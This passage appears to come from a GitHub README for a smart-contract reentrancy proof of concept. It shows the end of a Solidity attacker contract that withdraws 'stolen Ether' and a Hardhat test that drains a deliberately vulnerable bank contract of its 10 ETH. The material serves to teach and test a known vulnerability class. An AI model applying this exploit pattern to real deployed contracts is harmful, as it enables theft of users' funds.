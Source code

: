 ```solidity
    }

    // Withdraw stolen Ether to attacker's address
    function withdrawFunds() external {
        payable(msg.sender).transfer(address(this).balance);
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

### Hardhat Test Script
A Hardhat test script is included to automate the attack simulation.

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Reentrancy Attack PoC", function () {
  let vulnerableBank, attacker, owner, attackerAddr;

  beforeEach(async function () {
    // Deploy VulnerableBank
    const VulnerableBank = await ethers.getContractFactory("VulnerableBank");
    vulnerableBank = await VulnerableBank.deploy();
    await vulnerableBank.deployed();

    // Deploy Attacker
    const Attacker = await ethers.getContractFactory("Attacker");
    [owner, attackerAddr] = await ethers.getSigners();
    attacker = await Attacker.deploy(vulnerableBank.address);
    await attacker.deployed();

    // Fund VulnerableBank with 10 Ether
    await owner.sendTransaction({
      to: vulnerableBank.address,
      value: ethers.utils.parseEther("10"),
    });
  });

  it("should drain VulnerableBank via reentrancy", async function () {
    // Initial balances
    const initialBankBalance = await vulnerableBank.getBalance();
    console.log(`Initial Bank Balance: ${ethers.utils.formatEther(initialBankBalance)} ETH`);

    // Execute attack with 1 Ether
    await attacker.connect(attackerAddr).attack({ value: ethers.utils.parseEther("1") });

    // Check final balances
    const finalBankBalance = await vulnerableBank.getBalance();
    const attackerBalance = await attacker.getBalance();
    console.log(`Final Bank Balance: ${ethers.utils.formatEther(finalBankBalance)} ETH`);
    console.log(`Attacker Balance: ${ethers.utils.formatEther(attackerBalance)} ETH`);

    expect(finalBankBalance).to.equal(0, "Bank should be drained");
    expect(attackerBalance).to.be.above(0, "Attacker should have stolen funds");
  });
});
```
